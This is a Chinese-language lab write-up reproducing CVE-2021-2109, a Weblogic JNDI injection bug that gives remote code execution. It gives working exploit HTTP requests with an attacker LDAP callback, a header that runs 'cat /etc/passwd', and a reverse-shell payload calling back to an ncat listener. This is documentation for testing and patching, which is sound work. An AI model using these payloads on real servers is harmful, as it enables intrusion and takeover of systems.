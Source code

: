 # 💔 Weblogic LDAP 远程代码执行

### 1）漏洞信息

|漏洞名称	|受影响组件	|漏洞类型	|漏洞编号	|
|--	|--	|--	|--	|
|Weblogic LDAP 远程代码执行	|[Weblogic](https://www.oracle.com/cn/java/weblogic/)	|远程代码执行	|CVE-2021-2109	|

|漏洞简介	|
|--	|
|Oracle官方发布了漏洞补丁，修了包括 CVE-2021-2109 Weblogic Server远程代码执行漏洞在内的多个高危严重漏洞。CVE-2021-2109 中，攻击者可构造恶意请求，造成JNDI注入，执行任意代码，从而控制服务器。<br><br><p>影响版本：</p>WebLogic 10.3.6.0.0<br>WebLogic 12.1.3.0.0<br>WebLogic 12.2.1.3.0<br>WebLogic 12.2.1.4.0<br>WebLogic 14.1.1.0.0	|

|参考链接	|
|--	|
|<ol><li><a href="http://wiki.peiqi.tech/wiki/webserver/Weblogic/Weblogic%20LDAP%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2021-2109.html">http://wiki.peiqi.tech/wiki/webserver/Weblogic/Weblogic%20LDAP%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2021-2109.html</a></li><li><a href="https://cloud.tencent.com/developer/article/1797518">https://cloud.tencent.com/developer/article/1797518</a></li></ol>	|

|补丁及修复方案	|
|--	|
|<ol><li>升级Weblogic Server运行环境的JDK版本</li><li>升级官方安全补丁：<a href="https://www.oracle.com/security-alerts/cpujan2021.html">https://www.oracle.com/security-alerts/cpujan2021.html</a></li></ol>	|

### 漏洞环境

#### 方案一
使用[vulhub](https://github.com/vulhub/vulhub)搭建漏洞环境<b>（14882的环境同样适用于CVE-2021-2109）</b>

```
git clone https://github.com/vulhub/vulhub
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问7001端口，可以看到以下页面<b>（还需要等待一会，因为weblogic需要加载console控制台）</b>

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/01.png" alt=""><figcaption></figcaption></figure>


#### 方案二
使用[vulfocus](https://github.com/fofapro/vulfocus)搭建漏洞环境

```
docker pull vulfocus/weblogic-cve_2021_2109
docker run -itd -p 7001:7001 vulfocus/weblogic-cve_2021_2109
```

访问控制台页面，进行登录
* 账号：weblogic
* 密码：welcome1
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/11.png" alt=""><figcaption></figcaption></figure>


### 漏洞复现

```
python3 vulcat.py -u <URL> -a weblogic -v cve-2021-2109

# 注意, vulcat-v2.0.0版本及以上, 应使用以下命令
python3 vulcat.py -u <URL> -v cve-2021-2109
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/02.png" alt=""><figcaption></figcaption></figure>

在DNSLOG平台可以看到相应记录
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/03.png" alt=""><figcaption></figcaption></figure>

如果想进一步利用漏洞，需要下载辅助工具：https://github.com/WhiteHSBG/JNDIExploit/
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/04.png" alt=""><figcaption></figcaption></figure>

运行JNDIExploit（需要提前安装java环境）
* 使用-i选项指定本地IP
* 默认监听1389和3456端口
```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i <IP>
```

运行JNDIExploit之后
* 复制漏洞信息中的Request数据包
* 放入Burp，修改LDAP的IP地址
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/05.png" alt=""><figcaption></figcaption></figure>

```
GET /console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.80;1:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.80.132:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.80.132:7001
Origin: http://192.168.80.132:7001
```

```
ldap://192.168.80;1:1389/Basic/WeblogicEcho
```

此处需要注意，CVE-2021-2109有一个特性
* IP的最后一个.需要改为分号;
* 例如 192.168.1.1 --> 192.168.1<b>;</b>1
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/07.png" alt=""><figcaption></figcaption></figure>

在Burp发送数据包之后，回到命令行，可以看到返回了记录
* 说明LDAP成功
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/08.png" alt=""><figcaption></figcaption></figure>

```
GET /console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.80;1:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.80.132:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.80.132:7001
Origin: http://192.168.80.132:7001
cmd: cat /etc/passwd
```

此时如果你想执行自定义命令，并获得回显
* 只需要在数据包中添加一个Headers
* cmd: 你的命令
* 如图
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/09.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/10.png" alt=""><figcaption></figcaption></figure>


* <b>vulfocus：</b>
由于vulfocus的镜像无法通过漏洞 绕过登录页面进后台
所以需要提前登录，并在扫描时添加Cookie

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/13.png" alt=""><figcaption></figcaption></figure>

#### 额外内容-反弹shell

[JNDIExploit](https://github.com/WhiteHSBG/JNDIExploit/)还支持反弹shell的功能
* 在一台<b>Linux</b>机器上运行ncat，如图
* 必须是Linux机器，Windows运行ncat无法获取反弹回来的shell（工具介绍是这样说的，复现时经过实验也发现Windows不行）
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/14.png" alt=""><figcaption></figcaption></figure>

然后发送Payload
* 我的JNDIExploit.jar运行在192.168.80.1，端口1389
* ncat运行在192.168.80.132，端口12000

```
ldap://<你的JNDI>/Basic/ReverseShell/<IP>/<PORT>

# 示例：
ldap://192.168.80;1:1389/Basic/ReverseShell/192.168.80.132/12000
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/15.png" alt=""><figcaption></figcaption></figure>

回到ncat终端，可以看到已经返回了shell
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/weblogic/cve-2021-2109/16.png" alt=""><figcaption></figcaption></figure>

